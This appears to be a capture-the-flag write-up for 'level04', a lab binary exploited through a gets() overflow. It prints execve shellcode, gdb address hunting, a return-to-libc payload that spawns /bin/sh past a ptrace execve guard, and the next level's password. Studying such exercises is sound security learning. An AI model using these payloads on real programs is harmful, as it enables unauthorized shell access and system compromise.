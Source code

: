 # level 4 buffer overflow attack, return-to-libc

## Overview
The binary has `gets` function which has vulnerability of `buffer overflow`. But there is also tracking system using `ptrace`, prevent running execve function in child process. Instead, we can use `return-to-libc` to go into the `libc` and run `system` with `/bin/sh`.

## Steps

### vulnerability with `gets`

address of argument of gets: `%esp+0x20` = `0xffffd630`\
address of return address: `%ebp+0x4` = `0xffffd6cc`\
offset = 156 bytes

We tried to write shellcode in the buffer and access there.
```
python -c '''
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "x"*(156-len(shellcode))
address = "\xff\xff\xd6\x30"[::-1]
print shellcode + padding + address
''' > /tmp/04

(gdb) r <<< $(cat /tmp/04)
Starting program: /home/users/level04/level04 <<< $(cat /tmp/04)
Give me some shellcode, k
no exec() for you
[Inferior 1 (process 2007) exited normally]
```
But, this method is blocked by `ptrace` \.
```
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```

#### reference links
[Playing with ptrace](https://www.linuxjournal.com/article/6100)\
[ptrace.h](https://sites.uclouvain.be/SystInfo/usr/include/sys/ptrace.h.html)\
[Exploiting Linux systems with ptrace](https://raj3shp.medium.com/exploiting-linux-systems-with-ptrace-637f13a7d9ea)\
[Intercepting and Emulating Linux System Calls with Ptrace](https://nullprogram.com/blog/2018/06/23/)

### return-to-libc

First, we have to find address of `libc`.
```
(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
0xf7e2b000 0xf7e2c000     0x1000        0x0
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
0xf7fd0000 0xf7fd4000     0x4000        0x0
0xf7fda000 0xf7fdb000     0x1000        0x0
```
There is `/lib32/libc-2.15.so` from `0xf7e2c000` to `0xf7fcc000`.

Then, find address of string "/bin/sh"
```
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

```
objdump -d /lib32/libc-2.15.so | grep system
0003eed0 <__libc_system>:
0xf7e2c000 + 0003eed0 = 0xf7e6aed0

or 

readelf -s /lib32/libc-2.15.so | grep system
   239: 0011ca50    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   615: 0003eed0   141 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1422: 0003eed0   141 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
#### reference links
[Return-to-libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

## Code
### supervised by ptrace

```c
// child
prctl(1, 1);
ptrace(0, 0, 0, 0);
puts("Give me some shellcode, k");
gets(v5);
```
- `prctl(1, 1)` sets the process to receive a SIGHUP signal if its parent process dies.
- `ptrace(PTRACE_TRACEME, 0, 0, 0)` declares that the current process should be traced by its parent, often used in debugging scenarios.

```c
// parent
do
{
  wait(&v4);
  v6 = v4;
  if ( (v6 & 0x7F) == 0 || (v7 = v4, (char)((v4 & 0x7F) + 1) >> 1 > 0) )
  {
    puts("child is exiting...");
    return 0;
  }
  v8 = ptrace(3, v9, 44, 0);
}
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```
- The ptrace with 3`PTRACE_PEEKUSER` as first argument, reads data from the child process's user area.
- The value 11 is significant as it corresponds to the system call number for `execve` in some architectures. This loop effectively monitors whether the child process has called `execve`.

Tip! to debug multi-process program
```
(gdb) set follow-fork-mode child
(gdb) set follow-fork-mode parent
```

## Payload


address of `system` = `0xf7e6aed0`\
address of string, `/bin/sh` = `0xf7f897ec`

```
python -c 'print("x"*156 + "\xf7\xe6\xae\xd0"[::-1] + "xxxx" + "\xf7\xf8\x97\xec"[::-1])' > /tmp/04

cat /tmp/04 - | ./level04
```

## Flag
```
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```